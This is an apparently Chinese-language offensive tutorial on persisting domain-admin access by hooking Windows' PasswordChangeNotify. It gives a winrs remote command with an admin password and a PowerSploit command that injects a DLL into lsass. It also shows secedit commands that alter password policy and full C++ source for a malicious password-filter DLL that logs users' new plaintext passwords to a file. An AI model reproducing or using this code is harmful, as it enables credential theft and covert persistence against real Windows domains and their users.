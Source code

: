 ```
winrs -r:192.168.86.114 -u:192.168.86.114\administrator -p:123456!@#$% whoami
```

域管权限维持
======

**十二、Hook PasswordChangeNotify**
--------------------------------

原理：当用户修改密码时会输入明文密码，LSA 会调用 PasswordChangeNotify 在系统中同步密码。我们 HOOK 这个函数，改变其行为，就能达到获取用户修改后的密码的明文.

Tool: Powersploit 下的 Invoke-ReflectivePEInjection.ps1 （用于注入）  
https://github.com/PowerShellMafia/PowerSploit  
以及 https://github.com/clymb3r/Misc-Windows-Hacking 的 HookPasswordChange.dll(需自行编译)

```
Import-Module .\Invoke-ReflectivePEInjection.ps1Invoke-ReflectivePEInjection -PEPath HookPasswordChange.dll -procname lsass
```

执行如上命令，只要修改了用户的密码，修改后的明文密码就会记录在 C:\Windows\Temp\passwords.txt 文件中。

下面我们分析一下原理

当密码改变请求发生时，LSA 会调用 Password Filters。每一个 password filter 会先验证新密码的合法性和复杂度，然后 LSA 会发出请求已更改的信号。

![](https://mmbiz.qpic.cn/mmbiz_png/zojWxwXWulO6cX5ngkMOrjGu5hiaU8jWMS20dPxWhrLhCkK8OTbJewcrnvZM83nTztlne2ib9RXtOm4ch8jbBWbQ/640?wx_fmt=png)

该过程由 password notification DLL 完成。所以我们只需要劫持这个 DLL，把它换成我们自定义的 DLL 即可达到目的。  
这种方式一般在 Server 服务器上利用率较高  
通常来说，这个 dll 文件的在注册表中的路径是 hklm\system\currentcontrolset\control\lsa 的 notification packages 表项。

![](https://mmbiz.qpic.cn/mmbiz_png/zojWxwXWulO6cX5ngkMOrjGu5hiaU8jWMQQ06tSu6BWnyhYnxoZy0GlDzY8VMOrVDF8JV5ujtQyVV5gq5a8F4vQ/640?wx_fmt=png)

我们要利用该方法，首先要确保密码策略已启用

![](https://mmbiz.qpic.cn/mmbiz_png/zojWxwXWulO6cX5ngkMOrjGu5hiaU8jWMz9Zow47YUkPRiadp1ZcRo5zeYG1604EBMQ13l3CITiaIxuR1XcK1lYJQ/640?wx_fmt=png)

至于命令行怎么修改。可以这样

```
secedit /export /cfg gp.inf /quiet 将组策略导出为文件在该文件里将PasswordComplexity项值修改为1然后用secedit /configure /db gp.sdb /cfg gp.inf /quiet 将其导入数据库刷新组策略：gpupdate/force重启后生效
```

下面我们构造 dll 文件去覆盖它。

首先我们的 dll 文件内容如下。

```
#include<Windows.h>#include<NTSecAPI.h>#include <fstream>extern "C" __declspec(dllexport) BOOLEAN __stdcall InitializeChangeNotify() {    OutputDebugString(L"InitializeChangeNotify");    return TRUE;}extern "C" __declspec(dllexport) BOOLEAN __stdcall PasswordFilter(    PUNICODE_STRING AccountName,    PUNICODE_STRING FullName,    PUNICODE_STRING Password,    BOOLEAN SetOperation){    OutputDebugString(L"PasswordFilter");    return TRUE;}extern "C" __declspec(dllexport) BOOLEAN __stdcall PasswordChangeNotify(    PUNICODE_STRING UserName,    ULONG RelativeId,    PUNICODE_STRING NewPassword){    FILE *pFile;    fopen_s(&pFile, "C:\\logFile.txt", "a+");    fprintf(pFile, "%ws:%ws", UserName->Buffer, NewPassword->Buffer);    return 0;}
```
